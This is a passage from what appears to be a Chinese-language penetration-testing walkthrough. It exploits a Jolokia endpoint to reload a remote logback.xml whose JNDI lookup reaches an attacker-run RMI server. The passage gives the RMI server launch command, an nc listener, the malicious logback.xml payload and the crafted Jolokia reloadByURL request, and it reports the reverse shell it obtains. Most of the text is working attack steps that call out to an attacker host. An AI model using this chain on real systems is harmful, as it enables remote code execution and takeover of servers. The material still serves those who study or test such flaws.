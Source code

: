 

将上面打包的jar放到kali上，开启8090端口

```
如下命令:java -Djava.rmi.server.hostname=x.x.x.x -jar RMIServer-0.1.0.jar
```

![](media/d1dffff25909ba0840e280f858d32e0d.png)

使用nc开启监听1234端口

![](media/b531b990d627d9069028dcea04343c27.png)



下面为在服务器上放置的logback.xml用来请求kaLi开启的8090端口建立连接

```
<configuration>

<insertFromJNDI env-entry-name="rmi://192.168.233.249:8090/jndi" as="appName"
>

</configuration>
```



在浏览器中从外部构造url访问

```
http://192.168.233.247:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!192.168.233.1!/logback.xml
```



浏览器返回结果如下:

![](media/1e7783f49e5d0511d34e21997052151e.png)

可以看到kali下获取反弹的shell
